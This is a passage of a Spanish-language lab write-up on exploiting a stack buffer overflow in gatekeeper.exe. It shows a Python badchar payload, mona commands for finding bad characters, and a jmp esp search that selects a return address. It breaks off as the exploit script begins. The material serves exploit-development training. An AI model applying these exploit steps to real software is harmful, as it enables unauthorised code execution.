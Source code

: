 ```
payload = "\x41" * 146
payload += "\x42" * 4
payload += "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
payload += "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
payload += "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
payload += "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
payload += "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
payload += "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
payload += "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
payload += "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
Hacemos de nuevo un reinicio, ejecutamos hasta que gatekeeper.exe esté ejecutado y ejecutamos nuestro script.

Cuando veamos las 4 B en EIP y todo correctamente, nos dirigimos a "Log" y ejecutamos lo siguiente para saber el siguiente badchar.

```mona.mona('compare -f C:\\logs\\gatekeeper\\bytearray.bin -a ESP')```

![ea48f102a269b9ddf9d21411bdd8b8af](https://user-images.githubusercontent.com/107114264/173070653-1039e638-0a2e-41cb-b657-57c01309e07a.png)

El siguiente posible badchar sería \x0a, así que vamos a añadirlo. ```mona.mona('bytearray -cpb "\\x00\\x0a"')```

Cambiamos el anterior que estaba con los payloads por el nuevo, Reiniciamos el programa le damos a ejecutar hasta que gatekeeper.exe se ejecute y ejecutamos nuestro script.

Volvemos a hacer un ```mona.mona('compare -f C:\\logs\\gatekeeper\\bytearray.bin -a ESP')``` para ver si hay más.

![21ab629ecc82634096fc018c4d3305c5](https://user-images.githubusercontent.com/107114264/173072708-c8c90d45-a89f-4e7c-9fc5-16ac337689bb.png)

Hooray!!!!, ahora tocaría buscar jmp esp es decir un jump al stack.

# Buscando jmp esp para gatekeeper.exe con x32dbg

Vamos a reiniciar el programa ejecutarlo hasta que abra y sin ejecutar el script vamos a "Log" y ponemos lo siguiente ```mona.mona("jmp -r esp")```

![efac4c9c54c53db38425e18da52100fa](https://user-images.githubusercontent.com/107114264/173073881-f7f42b58-2cee-4f7b-9bfe-caa4cab2f1c5.png)

Salen 2 y en mi caso usaré el primero ```0x080414c3``` Añadirlo a Retn dentro del script y después hacerle una llamada de esta manera.

```
import socket
